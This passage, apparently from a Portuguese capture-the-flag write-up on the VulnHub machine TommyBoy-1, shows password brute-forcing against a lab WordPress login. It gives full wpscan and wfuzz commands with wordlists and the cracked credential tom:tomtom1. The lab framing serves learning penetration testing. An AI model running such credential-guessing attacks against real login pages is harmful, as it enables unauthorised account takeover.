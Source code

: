 ## Brute Force

* Depois de varias tentativas, sem sucesso, com as senhas que tinhamos encontrado vamos fazer um bruteforce na pagina de login da aplicacao. Vou demonstrar de duas formas para fins de registro


### WPScan

```bash
sudo wpscan --url http://192.168.56.106/prehistoricforest -U usuarios-wp.txt -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt
```

![](/assets/img/Vulnhub/TommyBoy-1/wpscan-UserSenha.png)

> - Conseguimos achar a credencial: **tom:tomtom1**
> - Utilizamos essa wordlist para ser um pouco mais rapido, poderia ser a rockyou tbm


### WFUZZ

```bash
wfuzz -c --hl 71,72 -w usuarios-wp.txt -w password_wp.txt -d "log=FUZZ&pwd=FUZ2Z" http://192.168.56.106/prehistoricforest/wp-login.php
```

![](/assets/img/Vulnhub/TommyBoy-1/wfuzz-userSenha.png)

> - Conseguimos obter o mesmo resultado: **tom:tomtom1**
> - Utilizamos uma wordlist que criamos para fins didaticos
> - Para verificar como e o formulario de envia (POST) podemos utilizar o BurpSuite ou entao usar a ferramente de desenvolvedor do navegador clicando em **Network** -> **Request**

